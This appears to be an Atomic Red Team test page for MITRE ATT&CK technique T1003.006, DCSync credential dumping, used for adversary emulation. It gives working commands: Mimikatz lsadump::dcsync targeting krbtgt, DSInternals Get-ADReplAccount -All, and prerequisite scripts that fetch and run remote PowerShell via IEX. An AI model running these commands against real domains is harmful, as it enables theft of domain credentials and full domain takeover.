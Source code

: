 # T1003.006 - OS Credential Dumping: DCSync
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1003/006)
<blockquote>Adversaries may attempt to access credentials and other sensitive information by abusing a Windows Domain Controller's application programming interface (API)(Citation: Microsoft DRSR Dec 2017) (Citation: Microsoft GetNCCChanges) (Citation: Samba DRSUAPI) (Citation: Wine API samlib.dll) to simulate the replication process from a remote domain controller using a technique called DCSync.

Members of the Administrators, Domain Admins, and Enterprise Admin groups or computer accounts on the domain controller are able to run DCSync to pull password data(Citation: ADSecurity Mimikatz DCSync) from Active Directory, which may include current and historical hashes of potentially useful accounts such as KRBTGT and Administrators. The hashes can then in turn be used to create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001) for use in [Pass the Ticket](https://attack.mitre.org/techniques/T1550/003)(Citation: Harmj0y Mimikatz and DCSync) or change an account's password as noted in [Account Manipulation](https://attack.mitre.org/techniques/T1098).(Citation: InsiderThreat ChangeNTLM July 2017)

DCSync functionality has been included in the "lsadump" module in [Mimikatz](https://attack.mitre.org/software/S0002).(Citation: GitHub Mimikatz lsadump Module) Lsadump also includes NetSync, which performs DCSync over a legacy replication protocol.(Citation: Microsoft NRPC Dec 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - DCSync (Active Directory)](#atomic-test-1---dcsync-active-directory)

- [Atomic Test #2 - Run DSInternals Get-ADReplAccount](#atomic-test-2---run-dsinternals-get-adreplaccount)


<br/>

## Atomic Test #1 - DCSync (Active Directory)
Active Directory attack allowing retrieval of account information without accessing memory or retrieving the NTDS database.
Works against a remote Windows Domain Controller using the replication protocol.
Privileges required: domain admin or domain controller account (by default), or any other account with required rights.
[Reference](https://adsecurity.org/?p=1729)

**Supported Platforms:** Windows


**auto_generated_guid:** 129efd28-8497-4c87-a1b0-73b9a870ca3e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domain | Targeted Active Directory domain | String | %userdnsdomain%|
| user | Targeted user | String | krbtgt|
| mimikatz_path | Mimikatz windows executable | Path | %tmp%&#92;mimikatz&#92;x64&#92;mimikatz.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
#{mimikatz_path} "lsadump::dcsync /domain:#{domain} /user:#{user}@#{domain}" "exit"
```




#### Dependencies:  Run with `powershell`!
##### Description: Mimikatz executor must exist on disk and at specified location (#{mimikatz_path})
##### Check Prereq Commands:
```powershell
$mimikatz_path = cmd /c echo #{mimikatz_path}
if (Test-Path $mimikatz_path) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-FetchFromZip.ps1" -UseBasicParsing) 
$releases = "https://api.github.com/repos/gentilkiwi/mimikatz/releases"
$zipUrl = (Invoke-WebRequest $releases | ConvertFrom-Json)[0].assets.browser_download_url | where-object { $_.endswith(".zip") }
$mimikatz_exe = cmd /c echo #{mimikatz_path}
$basePath = Split-Path $mimikatz_exe | Split-Path
Invoke-FetchFromZip $zipUrl "x64/mimikatz.exe" $basePath
```




<br/>
<br/>

## Atomic Test #2 - Run DSInternals Get-ADReplAccount
The following Atomic will run Get-ADReplAccount from DSInternals.
Upon successful execution, domain and credentials will appear in stdout. 
[Reference](https://www.crowdstrike.com/blog/observations-from-the-stellarparticle-campaign/) CrowdStrike StellerParticle.
https://www.dsinternals.com/en/retrieving-active-directory-passwords-remotely/

**Supported Platforms:** Windows


**auto_generated_guid:** a0bced08-3fc5-4d8b-93b7-e8344739376e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | String | $ENV:logonserver.TrimStart("&#92;")|


#### Attack Commands: Run with `powershell`! 


```powershell
Get-ADReplAccount -All -Server #{logonserver}
```




#### Dependencies:  Run with `powershell`!
##### Description: DSInternals must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name DSInternals -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['DSInternals']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name DSInternals -Scope CurrentUser -Force
```




<br/>
